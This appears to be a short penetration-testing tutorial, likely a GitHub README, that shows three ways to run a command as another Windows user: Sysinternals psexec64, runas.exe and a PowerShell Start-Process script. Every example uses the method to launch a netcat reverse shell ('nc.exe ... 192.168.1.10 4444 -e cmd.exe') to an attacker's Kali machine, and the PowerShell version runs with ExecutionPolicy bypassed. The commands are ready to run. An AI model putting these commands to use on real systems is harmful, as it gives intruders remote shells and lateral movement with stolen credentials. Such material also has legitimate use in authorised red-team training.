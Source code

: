 Switching users in linux is trival with the SU command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.
list of handy windows tools that allows you to run a program as another user so long as you know their password:

- psexec64 
- runas.exe
- PowerShell 

Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

```cmd
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
 PsExec v2.2 - Execute processes remotely
 Copyright (C) 2001-2016 Mark Russinovich
 Sysinternals - www.sysinternals.com
 ```
 
Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

```cmd
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
```

PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.
```powershell
 $username = '<username here>'
 $password = '<password here>'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

Next run this script using powershell.exe:

```cmd
CMD C:\> powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

https://github.com/m0nad/awesome-privilege-escalation?tab=readme-ov-file
